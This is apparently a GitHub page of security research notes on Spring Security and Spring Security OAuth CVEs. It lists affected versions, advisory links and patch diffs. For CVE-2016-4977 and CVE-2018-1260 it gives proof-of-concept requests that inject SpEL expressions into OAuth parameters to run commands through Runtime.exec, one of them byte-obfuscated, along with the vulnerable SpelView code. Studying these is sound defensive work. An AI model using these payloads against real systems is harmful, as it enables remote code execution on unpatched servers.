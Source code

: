 #### CVE-2022-31692 Authorization Bypass
Affected Version: 5.7 to 5.7.5, 5.6 to 5.6.9 

Ref: https://spring.io/security/cve-2022-31692/

#### CVE-2023-34034 Authorization Bypass
Affected Version: 6.1.0 to 6.1.1, 6.0.0 to 6.0.4, 5.8.0 to 5.8.4, 5.7.0 to 5.7.9, 5.6.0 to 5.6.11

Official description: 

> Using "**" as a pattern in Spring Security configuration for WebFlux creates a mismatch in pattern matching between Spring Security and Spring WebFlux, and the potential for a security bypass.


#### CVE-2016-4977 OAuth2 SpEL
Affected Version: < 2.0.0-2.0.9 or 1.0.0-1.0.5

Diff: https://github.com/spring-attic/spring-security-oauth/commit/fff77d3fea477b566bcacfbfc95f85821a2bdc2d

POC: 
```
GET /oauth/authorize?response_type=token&client_id=acme&redirect_uri={payload}

${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```
Factor: 
```
SpelView
    public SpelView(String template) {
        ...
        this.resolver = new PlaceholderResolver() {
            public String resolvePlaceholder(String name) {
                Expression expression = SpelView.this.parser.parseExpression(name);
                Object value = expression.getValue(SpelView.this.context);
                return value == null ? null : value.toString();
            }
        };
    }
```

#### CVE-2018-1260 OAuth2 SpEL
Affected Version: < 2.3.3 or 2.2.2 or 2.1.2 or 2.0.15

Ref: https://www.gosecure.net/blog/2018/05/17/beware-of-the-magic-spell-part-2-cve-2018-1260/

Diff: https://github.com/spring-attic/spring-security-oauth/commit/adb1e6d19c681f394c9513799b81b527b0cb007c

POC: (scope中如果存在空格，会被切分成数组)
```
GET or POST
/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```
Factor: 
```
org.springframework.security.oauth2.provider.endpoin.SpelView
    public SpelView(String template) {
        ...
        this.resolver = new PlaceholderResolver() {
            public String resolvePlaceholder(String name) {
                Expression expression = SpelView.this.parser.parseExpression(name);
                Object value = expression.getValue(SpelView.this.context);
                return value == null ? null : value.toString();
            }
        };
    }
```